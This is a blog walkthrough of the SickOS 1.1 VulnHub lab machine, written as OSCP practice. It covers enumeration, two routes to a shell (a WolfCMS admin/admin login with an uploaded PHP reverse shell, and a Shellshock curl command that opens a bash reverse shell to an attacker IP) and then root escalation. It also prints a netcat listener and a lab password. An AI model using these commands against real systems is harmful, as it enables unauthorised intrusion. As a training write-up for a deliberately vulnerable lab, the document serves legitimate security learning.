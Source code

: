 ```yaml
---
title:  "SickOS 1.1 Walkthrough"
header: "SickOS 1.1 Walkthrough"
categories: 
  - walkthroughs
tags:
  - vulnhub
---
```


The SickOS series from vulnhub are a really good taste for what you can expect to find while purusing your OSCP. Below is a walkthrough of how to compromise the machine and obtain the flag. I've seperated it into two options as there are many different ways to compromise this particular machine. Post or reach out if you know of some other ways!

# Host Enumeration  
***

Of course we start off with an nmap scan to see what we're working with
`nmap –sV 192.168.32.133`  
![Nmap Scan](/assets/images/sickosnmap.JPG)  

# Service Enumeration  
***
![Services](/assets/images/sickosservices.JPG)  

So at this point I took notes of the ports, likely OS version, and the services running. Since there’s a proxy configured and a closed 8080 port, I went ahead configured my browser through port 3128 with the assumption there’s a website possibly hosted on this server.

>**Helpful Note:**
You can do this by opening Iceweasel > Properties > Preferences > Advanced > Network > Settings. Select Manual Proxy Configuration and place the IP address and appropriate port and select “OK” once done.
![Proxy Config](/assets/images/sickosproxyconfig.JPG)  

 Next I navigated to port 8080 with a connection failure and simply tried the standard HTTP port 80 and was presented with a page containing “BLEHHH!!!” on it.
![Blehhh](/assets/images/sickosblehh.JPG)  

Inspecting the source didn’t reveal anything useful but then I tried robots.txt which contained an interesting folder “/wolfcms”.
![SickOS Robots](/assets/images/sickosrobots.JPG)  

While manually researching wolfcms, I kicked off a general nikto scan and a dirb scan of the wolfcms directory.

Nikto Usage: `nikto -h 192.168.32.133 -useproxy http://192.168.32.133:3128`  
Dirb Usage: `dirb http://192.168.32.133/wolfcms -p 192.168.32.133:3128`  

I noted multiple publically released vulnerabilities for Wolf CMS, one in particular was an [Arbitrary File Upload /Execution](https://www.exploit-db.com/exploits/38000/) that seemed to foot the bill if I were able to get logged in. A quick google search revealed the standard login page would be `/admin/` or `/?admin/` depending on the mod_rewrite status. In this case, the correct path was `/wolfcms/?admin/`. Navigating to this URL presented a Wolf CMS login screen

![SickOS Wolf CMS Login](/assets/images/sickoswolflogin.JPG)  

At this time I decided to review what my scans came back with as I had a pretty good feel for where this was going from a Wolf CMS standpoint.

### Dirb  
Dirb revealed several directories but most notably the `/public/` directory which was also mentioned in the vulnerability page mentioned above.

![SickOS Dirb](/assets/images/sickosdirb.JPG)  

### Nikto  

Nikto had even more interesting information such as it possibly being vulnerable to shellshock.
![SickOS Nikto](/assets/images/sickosnikto.JPG)  

This is where the options occur, Option 1 goes after the CMS and Option 2 goes after shellshock. Shellshock is certainly the popular way in but I recommend doing both just for the experience. Just as an FYI, the privilege escalation techniques are different for each but can be done in either scenario.

# Compromise Option 1 - CMS Way  
***
### Breach  
I searched for default username/password combinations but it appears to be generated at install so there wasn’t much luck on that front. So I navigated back to the login screen `/wolfcms/?admin/` to try some basic username/password combos and one of the first tries was a success with admin/admin.

![SickOS Wolf Main Page](/assets/images/sickoswolfmain.JPG)  

Upon entry, I snooped around a few places just checking out versioning and to see if anything caught my eye. Naturally the files section stuck out like a sore thumb, particularly since it shows read/write permissions and the ability to upload files. Essentially, this is what the exploit noted above was describing; find a way to upload a shell and then navigate to it. As with many others, [pentestmonkey.net’s](http://pentestmonkey.net/) reverse PHP shell comes to the rescue again. I plugged in my attacking machines IP and uploaded it

![SickOS Wolf Upload](/assets/images/sickoswolfupload.JPG)  

Since it appears that it’s in the public directory (that I discovered earlier with Dirb), all that is needed is to set up a listener and navigate to the uploaded malicious php page

> **Helpful Note:**
Listener: `nc –nlvp 4444`  

I was then presented with a shell to my attacking machine as the www-data user

![SickOS Shell 1](/assets/images/sickosshell1.JPG)  

### Privilege Escalation  
 
I noticed an interesting cron entry that ran `/var/www/connect.py` in which the www-data user had write access to. So I replaced the contents of connect.py with a python shell obtained from [Trustedsec](https://www.trustedsec.com/) and set up a listener. After a few seconds I was presented with a shell as the root user which was able to obtain the flag.

![SickOS root 1](/assets/images/sickosroot1.JPG)  

# Compromise Option 2 - Shellshock Way  
***

### Breach  
From the output of the Nikto scan, it appears that this machine is vulnerable to shellshock. I don’t want to belabor shellshock as it’s very widely publicized and documented well. However, you should be familiar with it as it will likely come up in future endeavors ([link 1](https://fedoramagazine.org/shellshock-how-does-it-actually-work/), [link 2](https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability), [link 3](https://blog.cloudflare.com/inside-shellshock/))

There are many ways to do this, but in my haste I chose to use curl (this would be a great exercise to go through with Burp as well). I set up a listener, and used the below curl command to send to the attacking machine.
`curl -x http://<TARGET IP>:3128 -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/<ATTACKING IP>/1234 0>&1" http://<TARGET IP>/cgi-bin/status`  

Once the command was sent, I was able to receive a reverse shell as the www-data user.

![SickOS Shell 2](/assets/images/sickosshell2.JPG)  

### Privilege Escalation  

Once on the machine, I began the information collection phase and came upon an interesting file `/var/www/wolfcms/config.php`. You should always check out the config files, people hardcode all kinds of juicy information in them.

![SickOS Database Config](/assets/images/sickosdbconfig.JPG)  

As it shows above, the SQL root user has the password of “john@123”. Naturally once you’ve obtained any type of credential you should see if the user can fall victim to password reuse. A quick `cat /etc/passwd` command shows a non-standard user “sickos”. I attempted to SSH as that user and with the credential found in the config file and was able to successfully log in.  

Upon logging, I checked to see if the user had sudo privileges by using `sudo –l` and as you will see below, the user does have the necessary privileges.  

![SickOS Sudo Options](/assets/images/sickossudoop.JPG)  

All that is left to do is `sudo su`

![SickOS Sudo](/assets/images/sickossudo.JPG)  

Once as the root user you can move to the /root directory and display the flag

![SickOS root 2](/assets/images/sickosroot2.JPG)  

# Conclusion  
***

I believe there are some additional easter eggs to find here but had to move on to other things. I thought it was a good representation of some of the machines that you'll experience in the OSCP labs. I would consider this machine on the easy side but it teaches you good lessons and encourages you to follow your hunches and solidify your enumeration process.
